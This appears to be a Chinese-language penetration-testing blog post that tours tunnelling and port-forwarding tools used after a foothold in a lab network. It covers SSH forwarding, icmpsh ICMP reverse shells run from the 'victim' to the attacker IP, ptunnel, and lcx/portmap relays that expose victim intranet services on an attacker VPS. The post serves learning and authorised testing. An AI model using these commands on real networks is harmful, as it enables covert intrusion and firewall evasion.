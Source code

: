 ```yaml
---
layout:     post
title:      内网渗透 常用的隧道代理技术
subtitle:   简单整理一下工具的使用
date:       2020-10-21
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/background/post-代理技术.jpg
catalog: true
tags:
    - 渗透测试
---
```



### 1. ssh 隧道



#### 本地转发



假设存在 webserver与内网主机可以互通，攻击者可与webserver互通  但攻击者无法访问内网主机，且可以控制webserver 的ssh， 如下



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201025234228.png)





假设 攻击机无法与 192.168.190.128 不通（测试环境是通的 偷懒



`ssh -CfNg -L 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`

192.168.190.128 充当webserver 129充当内网主机

129上的服务如下

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201025234321.png)

`攻击者执行  ssh -CfNg -L 8888:192.168.190.129:80  diego@192.168.190.128`

* -C  压缩传输

* -f ssh后台传输不占用当前shell

* -N 建立连接，但看不到会话

* -g 允许远程主机连接本地用于转发端口

* -L 本地转发

![B9TKu6.png](https://s1.ax1x.com/2020/10/21/B9TKu6.png)



访问本地 8888端口

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCC8IA.png)





流量情况 (跳板机抓包分析)

总体流量

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCPky8.png)



下两图 可以看出 攻击者与webserver 是依靠ssh进行通信，而webserver 与 内网主机是正常通信

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCPFQf.png)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCPiSP.png)



#### 远程转发



将本地的端口流量转发到目标的端口上 与本地转发相反

`ssh -CfNg -R 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`



#### 动态转发

`ssh -CfNg -D 8888  跳板机用户名@跳板机地址`

设置socks代理



### 2. ICMP 隧道  

#### icmpsh

受害机 执行如下命令

`icmpsh.exe -t 攻击者ip -d 500 -b 30 -s 128`



![BpStPK.png](https://s1.ax1x.com/2020/10/20/BpStPK.png)



攻击机器

`sysctl -w net.ipv4.icmp_echo_ignore_all = 1`  关闭本地的icmp 以保证shell稳定性

`sudo python icmpsh_m.py  <source IP address> <destination IP address>`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpSU2D.png)



流量情况

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpSN8O.png)



#### ptunnel

下载 `wget http://www.cs.uit.no/\~daniels/PingTunnel/PingTunnel-0.72.tar.gz`

解压 `tar -xzvf PingTunnel-0.72.tar.gz`

安装依赖 `sudo apt install libpcap-dev`

安装 `sudo make && sudo make install`



**将内网的服务映射到vps的端口上**

拓扑同 ssh 



内网主机80端口存在如下服务


![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCL1Re.png)



在web服务上执行如下命令

`ptunnel -x diego`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCTpsx.png)



vps 上执行

`ptunnel -p web服务器ip -lp 映射到本地的端口  -da 内网主机ip -dp  内网服务端口 -x diego`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCbeSJ.png)



修改火狐的配置 

`network.security.ports.banned.override` 值为对应端口

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCLYqI.md.png)



访问本地的6000 端口

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BCL3xH.png)

### 3. lcx 与 portmap 端口转发



下载地址 http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip





#### 本地端口转发



**windows**

绕过防火墙限制某些端口通信，可以转发到其他端口

情景如下 ,服务只绑定在127.0.0.1上 公网ip 无法访问到服务



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpWNbd.png)



仅本地可以访问

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpWaVA.png)



公网ip 无法访问

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpWtDH.png)



执行 `lcx.exe -tran 80 127.0.0.1 8080 ` 将端口转发到80

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpWYKe.md.png)





连接状态 ： **80绑定在0.0.0.0上** 因此局域网可以访问



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpfPqH.png)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BpWGvD.png)





**linux 下**



`sudo ./portmap -m 1 -p1 81 -h2 127.0.0.1 -p2 80 `

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/B9RC28.png)](https://imgchr.com/i/B9RC28)

#### 远程端口转发



windows下：

受害机器

`lcx.exe -slave 公网ip  port  127.0.0.1 8080`

vps 上执行 `lcx.exe  -listen port  5555`

访问 vps:5555 即可访问到内网服务





**linux - liunx**：

受害主机

`./portmap -m 3 -h1 vpnip -p1 8007 -h2 127.0.0.1 -p2 80`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/B9sgPO.png)



自己的vps

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/B9sDq1.png)



受害内网服务

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/B9sya6.png)



被映射到自己vps 8008端口

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/B9ssVx.png)



**linux - windows**

受害着为**windows**时

windows 执行

`lcx.exe -slave 公网ip  port  127.0.0.1 80`

远程执行

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/BPPt5d.md.png)

